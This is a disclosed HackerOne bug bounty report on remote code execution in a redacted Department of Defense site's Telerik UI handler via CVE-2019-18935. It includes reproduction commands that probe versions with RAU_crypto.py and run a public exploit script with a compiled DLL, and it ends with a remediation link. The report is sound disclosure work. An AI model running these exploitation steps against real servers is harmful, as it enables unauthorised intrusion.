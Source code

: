 # Remote Code Execution via CVE-2019-18935

## Report Details
- **Report ID**: 913695
- **URL**: https://hackerone.com/reports/913695
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-07-02T08:13:07.889Z
- **Disclosed**: 2020-08-13T18:11:22.998Z

## Reporter
- **Username**: un4gi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
The website at https://█████████/apps/XTRAHome/Telerik.Web.UI.WebResource.axd?type=rau is vulnerable to CVE-2017-11317 and CVE-2019-18935, allowing an attacker to upload arbitrary files and gain remote code execution on the underlying system.

## Step-by-step Reproduction Instructions

1. Browse to https://█████/apps/XTRAHome/Telerik.Web.UI.WebResource.axd?type=rau. You will see the following message confirming that the file upload handler is registered:
`{ "message" : "RadAsyncUpload handler is registered succesfully, however, it may not be accessed directly." }`
2. From here on out I used the write-up at https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui for reference.
3. With a slight modification to the script in the BishopFox write-up, I was able to determine the software version:

```
echo 'test' > testfile.txt
for VERSION in $(cat versions.txt); do
            echo -n "$VERSION: "
                python3 RAU_crypto.py -P 'C:\Windows\Temp' "$VERSION" testfile.txt https://█████/apps/XTRAHome/Telerik.Web.UI.WebResource.axd?type=rau 2>/dev/null | grep fileInfo || echo
        done
```
The `versions.txt` file I used has been attached to this report for ease of replication.
4. As shown in the results, the version is vulnerable to CVE-2017-11317 and I was able to successfully upload the `testfile.txt`.
██████████
5. Next, on a Windows system with Visual Studio installed, compile a dll using `build_dll.bat` as shown in the BishopFox article.
6. Using `python3 CVE-2019-18935.py -u https://████/apps/XTRAHome/Telerik.Web.UI.WebResource.axd?type=rau -v 2016.2.607 -f 'C:\Windows\Temp' -p <your_created_dll>.dll`, if you compiled using the PoC in the article you should be able to make the server hang for around 10 seconds. 
7. Once the sleep is over, the server should respond with a similar message as follows: `[*] Response time: 12.34 seconds` showing the server is vulnerable to CVE-2019-18935.
8. At this point you can upload a reverse shell payload, but I feel the sleep PoC is good enough to prove RCE.

## Product, Version, and Configuration (If applicable)
Telerik UI 2016.2.607

## References
https://labs.bishopfox.com/tech-blog/cve-2019-18935-remote-code-execution-in-telerik-ui
https://github.com/bao7uo/RAU_crypto
https://github.com/noperator/CVE-2019-18935
https://hackerone.com/reports/838196

## Suggested Mitigation/Remediation Actions
Follow recommended fix actions at https://www.telerik.com/support/kb/aspnet-ajax/details/allows-javascriptserializer-deserialization

## Impact

Remote Code Execution/Total system compromise.

## Attachments
No attachments
